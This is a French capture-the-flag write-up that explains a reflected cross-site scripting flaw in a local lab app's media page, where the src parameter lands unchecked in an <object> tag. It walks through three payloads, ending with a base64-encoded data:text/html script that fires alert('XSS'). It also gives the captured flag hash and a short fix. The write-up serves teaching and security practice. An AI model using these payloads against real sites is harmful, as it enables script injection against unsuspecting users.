



FLAG 2 (xss_reflected_media)
---

# 1. Explication

## **Ce qui se passe**

La page Média affiche une ressource (ici des images) dont l'adresse est donnée dans l'URL.

## **La faille**

Le site prend ce qu'il y a dans l'adresse et l'intègre directement dans la page sans vérifier si c'est une image valide. J’ai remplacé l'adresse de l'image par un script malveillant.

## **L'impact**

Si j’envoies ce lien piégé à une victime (par email par exemple) et qu'elle clique dessus, le script s'exécute sur **son** ordinateur. 

# 2. Demonstration

Sur la page media ou l’on peut rechercher des images, je tente de voir je peux lui imposer un source pour vérifier s’il y le serveur m’en empêche.

```bash
index.php?page=media&src=test
```


J’ai un retour négatif mais dans le fichiers je peux voir qu’il a bien pris en compte ma source.



On retrouve l’injection dans le fichier source de page :

```bash
<table style="margin-top:-68px;"><center><h2 style="margin-top:50px;"></h2><br/></center> <tr style="background-color:transparent;border:none;"><td style="vertical-align:middle;"><object data="test"></object></td></tr></table>
```

Le payload à fonctionné mais pas de FLAG ici.

---

**Payload 2 :** 

Je dis au navigateur que la "source" du média est du code JavaScript.

- **URL  :**`http://127.0.0.1:8080/index.php?page=media&src=javascript:alert('XSS')`
    
    
    
    Même résultat.
    

---

**Payload 3**

Vu que le `javascript:` est bloqué ou ne s'exécute pas, j’utilise l'encodage en Base64 pour injecter une commande à l'intérieur de l'objet.

On encode `<script>alert('XSS')</script>` en Base64 -> `PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

- **URL à tester :**

```bash
http://127.0.0.1:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
```



<aside>
✅

FLAG 2 TROUVÉ : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

</aside>

# 3. Remediation

Pour bloquer l'injection Base64 (`data:text/html...`), il ne faut pas essayer de décoder le Base64. Il faut simplement interdire tout ce qui ne commence pas par `http://` ou `https://`
